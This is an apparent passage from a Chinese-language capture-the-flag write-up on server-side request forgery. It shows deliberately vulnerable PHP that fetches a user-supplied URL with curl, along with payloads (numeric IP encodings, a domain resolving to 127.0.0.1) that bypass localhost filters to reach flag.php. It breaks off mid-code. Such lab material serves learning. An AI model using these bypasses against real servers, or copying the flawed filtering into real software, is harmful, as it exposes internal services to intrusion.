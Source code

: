 payload

```
127.0.0.1
十进制整数：url=http://2130706433/flag.php
十六进制：url=http://0x7F.0.0.1/flag.php
八进制：url=http://0177.0.0.1/flag.php
十六进制整数：url=http://0x7F000001/flag.php
```

# 354 357 过滤 1 0

源代码

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url = $_POST['url'];
$x = parse_url($url);
if ($x['scheme'] === 'http' || $x['scheme'] === 'https') {
    if (!preg_match('/localhost|1|0|。/i', $url)) {
        $ch = curl_init($url);
        curl_setopt($ch, CURLOPT_HEADER, 0);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $result = curl_exec($ch);
        curl_close($ch);
        echo($result);
    } else {
        die('hacker');
    }
} else {
    die('hacker');
}
?>
```

payload

```
域名指向127.0.0.1
把自己的域名指向127.0.0.1
url=http://r.szfsfu.ceye.io/flag.php
```

# 355 过滤http https 限制长度

源代码

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url = $_POST['url'];
$x = parse_url($url);
if ($x['scheme'] === 'http' || $x['scheme'] === 'https') {
    $host = $x['host'];
    if ((strlen($host) <= 5)) {
        $ch = curl_init($url);
        curl_setopt($ch, CURLOPT_HEADER, 0);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $result = curl_exec($ch);
        curl_close($ch);
        echo($result);
    } else {
        die('hacker');
```